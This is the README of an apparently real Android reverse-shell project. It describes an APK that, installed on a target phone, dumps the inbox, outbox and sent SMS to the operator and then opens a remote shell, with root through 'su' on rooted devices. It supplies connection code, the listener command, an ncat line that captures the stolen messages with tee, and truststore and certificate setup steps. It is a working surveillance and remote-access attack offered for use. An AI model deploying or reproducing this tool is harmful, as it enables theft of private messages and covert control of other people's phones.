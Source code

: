 Android Reverse Shell
===================
Ian Cohee 
---------------------

A small, very basic reverse shell for the Android mobile operating system. The code can be compiled into an APK package, that must be installed
on the target device. The application will dump the SMS contents of the device inbox, outbox, and sent mail, then drop into the shell. The resulting shell will be unprivileged, unless the target phone is rooted, then the command "su" can be used. In that case, the user still needs to manually give the application permission to "su" to UID 0. 

Secured vs. Unsecured Shell
--------------------------
By default, the connection is made using a 'SecureConnectionThread,' but can be changed to use a 'ConnectionThread' instead, for cleartext, yet faster, transfer of data.
Secure

    // UI cannot do networking stuff on its own, it needs
    // a separate thread. 
    new SecureConnectionThread().execute(host, port, "true");


Insecure

    // UI cannot do networking stuff on its own, it needs
    // a separate thread. 
    new SecureConnectionThread().execute(host, port, "false");

Listener (default: secured)
--------
I'm providing a Listener written in Java, that uses a KeyStore containing the private key that the Android Reverse Shell will accept. The BouncyCastle jar needs to be in the classpath of the listener, as well as two command-line arguments: 1) Path to the keystore (also supplied in this repository, under 'Crypto') and 2) the port to listen on (7777 by default).

	java -classpath /path/to/bcprov-jdk15on-146.jar Listener /path/to/javaserver.keystore 7777

Listener (unsecured)
--------
Still working on that (I'll have it when I get SSL or Symmetric key encryption added) in the mean time, a simple netcat-like listener works. I prefer to use Ncat, of the Nmap project. Since the application dumps SMS, I like to pipe them to `tee` to capture the results. The Listener will have logging, when I get to it. 

    ncat 192.168.2.3 7777 | tee server.out

Mini-tutorials
==============

Generating a TrustStore
-----------------------
    keytool -genkey -keystore android.truststore -alias android -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider

Generating X509 Certificate
---------------------------
This file will contain the both the private key, and the certificate into a file called `cert.pem`.
    
    openssl req -newkey rsa:2048 -nodes -days 3650 -x509 -keyout cert.pem -out cert.pem

Then extract the everything between the `-----BEGIN_CERTIFICATE-----` and `-----END_CERTIFICATE-----` (inclusively) into a new file. Now This file needs to be added to the trust store that the application uses. 

Importing Certificate into TrustStore
-------------------------------------
    keytool -importcert -trustcacerts -keystore android.truststore -file cert.pem -storetype BKS -providerpath /path/to/bcprov-jdk15on-146.jar -provider org.bouncycastle.jce.provider.BouncyCastleProvider 

Adding Bouncy Castle to java.security File
------------------------------------------
Locate the correct security file, mine was a symlink in /usr

    locate java.security

Add an entry, where X is the next ordinal number to the java.security file
    
    security.provider.X=org.bouncycastle.jce.provider.BouncyCastleProvider
